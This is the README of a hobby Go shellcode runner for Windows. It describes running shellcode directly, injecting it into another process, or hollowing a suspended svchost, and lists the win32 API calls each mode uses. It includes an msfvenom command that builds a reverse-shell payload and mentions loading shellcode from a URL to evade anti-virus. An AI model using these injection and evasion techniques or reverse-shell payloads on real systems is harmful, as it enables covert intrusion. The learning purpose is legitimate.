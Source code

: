 # Golang (Windows) Shellcode Runner

A small project I put together to help me understand the concepts behind process injection, hollowing and running lots of win32 API calls directly from Go using just the syscall library.

Hopefully the code is easy to understand, even though its all this low level nonsense with uintptr etc.

## Specifying Shellcode

Shell code to run can be specified one of three ways: directly on the args via `-i`, from a file via `-f`, or from a url with `-u`. This last option is useful as the shellcode will never be written to disk, possibly bypassing anti-virus.

> Shellcode this has been tested with on Windows 11 was created with msfvenom: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 PORT=4444 EXITFUNC=thread -f raw -o msfvenom_reversetcp_4444.txt` and then it was run via `-f msfvenom_reversetcp_4444.txt`.

## Modes of Operation

The shellcode can be run in one of three ways: directly, via process injection, or via process hollowing

### Direct Execution

This is the default option if `-p` or `-e` are not specified. The following APIs will be invoked:

- **VirtualAlloc** to create some memory space in the runner process
- **RtlMoveMemory** to copy the shellcode into this space
- **CreateThread** to start a thread to run the shellcode
- **WaitForSingleObject** to keep the process alive until the thread exits

This mode can be useful for debugging shellcode; add an `int3` to your assembly, attach to the runner process and go!

## Process Injection

Provide a process ID with `-p`. The process must be one you either created or otherwise have the writes to mess with. I tested with notepad, grabbing its PID from task manager.

The following APIs are invoked to run the shellcode inside the target process:

- **OpenProcess** to get the process information
- **VirtualAllocEx** to allocate some memory inside the process for the shellcode
- **WriteProcessMemory** to write the shellcode inside this space
- **CreateRemoteThread** to tell the process to run the shellcode with a new thread

The shellcode runner (this go project) doesn't need to be kept alive in this mode, and so will exit.

## Process Hollowing

Provide an executable path with `-e` - I tested using svchost, with the path `c:\\windows\\system32\\svchost.exe`. svchost in particular, if not run as system, will immediately exit when run. But process hollowing launches it suspended and then replaces its code with the shellcode, like a parasite :D

The following APIs are invoked in this mode:

- **CreateProcessA** to start a new process. The flag 0x4 is passed to start it suspended, just before it would run its code.
- **ZwQueryInformationProcess** to get the address of the process's PEB (process environment block)
- **ReadProcessMemory** to query the PEB for the image base address
- **ReadProcessMemory** again to read from the image base address (loading in the PE header for example)
- **WriteProcessMemory** to overwrite the memory from the code base address with shellcode
- **ResumeThread** to restart the suspended process, triggering the shellcode.

As with process injection, the go shellcode runner will exit once the thread is resumed.